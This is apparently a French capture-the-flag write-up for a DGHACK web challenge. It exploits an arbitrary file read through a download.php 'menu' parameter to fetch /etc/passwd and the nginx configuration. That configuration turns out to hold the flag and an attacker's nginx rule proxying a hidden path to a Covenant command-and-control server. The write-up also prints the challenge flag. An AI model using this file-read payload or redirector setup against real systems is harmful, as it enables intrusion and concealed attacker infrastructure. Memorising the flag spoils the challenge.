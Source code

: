 50 POINTS

## Description
Des analystes SOC du Ministère des Armées ont remarqué des flux suspects provenant de machines internes vers un site vitrine d'une entreprise. Pourtant ce site semble tout à fait légitime.

Vous avez été mandaté par la Direction Générale de l'Armement pour mener l'enquête. Trouvez un moyen de reprendre partiellement le contrôle du site web afin de trouver comment ce serveur joue un rôle dans l'infrastructure de l'acteur malveillant.

Aucun fuzzing n'est nécessaire.

Le flag se trouve sur le serveur à l'endroit permettant d'en savoir plus sur l'infrastructure de l'attaquant.

## Solution
Le site est un site d'un resto de burger.

Rapidement, je trouve un lien pour télécharger le menu du resto : 

`http://unchasseursachantchasser.chall.malicecyber.com/download.php?menu=menu_updated_09_11_2022.jpg`

On voit que le nom du fichier est placé en argument.

On essaye :

`http://unchasseursachantchasser.chall.malicecyber.com/download.php?menu=/etc/passwd`

Et on a bien téléchargé le fichier `/etc/passwd` ! On peut donc récupérer tous les fichiers lisibles sur la machine.

D'après l'énoncé, on cherche un fichier lié à de la config réseau. De plus, le header HTTP `Server : nginx` nous apprend qu'il s'agit d'un serveur nginx.

Un fichier classique de config nginx est `/etc/nginx/nginx.conf`. On le récupère et on trouve le flag en commentaire à côté d'informations intéressantes pour la deuxième partie du challenge.

```
# Website Acquisition : done.
# This rule is to become our redirector c2.
# Covenant 5.0 works on a Linux docker.
# The GRUNT port must be tcp/8000-8250.
# DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}
location ^~ /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72 {
    limit_except GET POST PUT { deny all; }
    rewrite /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72/(.*) /$1  break;
    proxy_pass https://covenant-attacker.com:7443;
}
```


**DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}**